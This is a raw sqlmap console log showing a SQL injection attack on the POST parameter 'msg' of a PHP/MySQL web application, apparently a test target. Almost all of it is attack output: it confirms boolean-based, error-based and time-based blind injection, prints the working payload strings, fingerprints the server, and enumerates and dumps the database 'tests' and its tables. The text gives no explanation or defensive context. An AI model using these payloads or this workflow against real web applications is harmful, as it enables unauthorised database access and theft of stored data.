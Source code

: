 ```bash
[19:20:14] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[19:20:24] [INFO] POST parameter 'msg' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[19:20:25] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[19:20:25] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[19:20:25] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[19:20:25] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[19:20:26] [INFO] target URL appears to have 1 column in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
[19:20:37] [WARNING] if UNION based SQL injection is not detected, please consider and/or try to force the back-end DBMS (e.g. '--dbms=mysql') 
[19:20:40] [INFO] testing 'MySQL UNION query (random number) - 1 to 20 columns'
[19:20:44] [INFO] testing 'MySQL UNION query (NULL) - 21 to 40 columns'
[19:20:48] [INFO] testing 'MySQL UNION query (random number) - 21 to 40 columns'
[19:20:52] [INFO] testing 'MySQL UNION query (NULL) - 41 to 60 columns'
[19:20:56] [INFO] testing 'MySQL UNION query (random number) - 41 to 60 columns'
[19:20:59] [INFO] testing 'MySQL UNION query (NULL) - 61 to 80 columns'
[19:21:04] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
[19:21:08] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
[19:21:12] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
POST parameter 'msg' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 371 HTTP(s) requests:
---
Parameter: msg (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: msg=hi' RLIKE (SELECT (CASE WHEN (9974=9974) THEN 0x6869 ELSE 0x28 END))-- reEz

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: msg=hi' AND GTID_SUBSET(CONCAT(0x7162627a71,(SELECT (ELT(4925=4925,1))),0x7176766a71),4925)-- TuQC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: msg=hi' AND (SELECT 9956 FROM (SELECT(SLEEP(5)))MMkW)-- EgxH
---
[19:23:27] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 7.0.33
back-end DBMS: MySQL >= 5.6
[19:23:29] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[19:23:29] [INFO] fetching current database
[19:23:29] [INFO] retrieved: 'tests'
[19:23:29] [INFO] fetching tables for database: 'tests'
[19:23:29] [INFO] retrieved: 'lol'
[19:23:30] [INFO] retrieved: 'msg'
[19:23:30] [INFO] fetching columns for table 'msg' in database 'tests'
[19:23:30] [INFO] retrieved: 'msg'
[19:23:30] [INFO] retrieved: 'varchar(100)'
[19:23:30] [INFO] fetching entries for table 'msg' in database 'tests'
[19:23:31] [INFO] retrieved: 'msg'
[19:23:31] [INFO] retrieved: 'test'
Database: tests
Table: msg
[2 entries]
+------+
| msg  |
+------+
```